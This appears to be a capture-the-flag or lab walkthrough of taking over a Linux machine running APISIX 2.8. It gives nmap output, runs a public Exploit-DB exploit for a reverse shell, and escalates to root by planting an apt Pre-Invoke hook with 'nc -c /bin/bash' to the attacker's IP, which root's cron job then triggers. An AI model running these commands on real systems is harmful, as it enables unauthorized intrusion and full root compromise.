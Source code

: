 # Table of Contents
- [Recon](#recon)
    - [nmap](#nmap)
- [Foothold](#foothold)
    - [Ports](#ports)
- [PE](#pe)

# Recon

## nmap
```c
PORT STATE SERVICE REASON

22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)  
| 256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)  
|_ 256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)  
80/tcp open http nginx 1.18.0 (Ubuntu)  
|_http-server-header: nginx/1.18.0 (Ubuntu)  
|_http-title: Upright  
3306/tcp open mysql MySQL (unauthorized)  
8080/tcp closed http-proxy  
43500/tcp open http OpenResty web app server  
|_http-server-header: APISIX/2.8  
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).  
Device type: general purpose|storage-misc|firewall  
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (85%), Synology DiskStation Manager 5.X (85%), WatchGuard Fireware 11.X (85%)  
OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel cpe:/a:synology:diskstation_manager:5.1 cpe:/o:watchguard:fireware:11.8  
Aggressive OS guesses: Linux 2.6.32 (85%), Linux 2.6.32 or 3.10 (85%), Linux 2.6.39 (85%), Linux 3.10 - 3.12 (85%), Linux 3.4 (85%), Linux 4.4 (85%), Synology DiskStation Manager 5.1 (85%), WatchGuard Fireware 11.8 (85%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 4 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Foothold
## Ports
#### 80
<pre>
- Ran ffuf to find directories
    - /img
    - /js
    - /css
    - /slick
        403 forbidden
- Searchsploit APISIX/2.8
    - https://www.exploit-db.com/exploits/50829
    - nc -lvnp 1234
    - python 50829 http://192.168.218.220:43500/ 192.168.45.151 1234
</pre>
# PE
<pre>
- Upgrade shell
    - python3 -c 'import pty; pty.spawn("/bin/bash")'
- id
    - uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
- cat cron/tab
 - root apt-get update
    - cd /etc/apt/apt.conf.d/
    - https://systemweakness.com/code-execution-with-apt-update-in-crontab-privesc-in-linux-e6d6ffa8d076
    - echo '#!/bin/bash' > priv
    - echo 'APT::Update::Pre-Invoke {"nc -c /bin/bash 192.168.45.151 80"}' >> priv
    - nc -lvnp 80  >  rooted
</pre>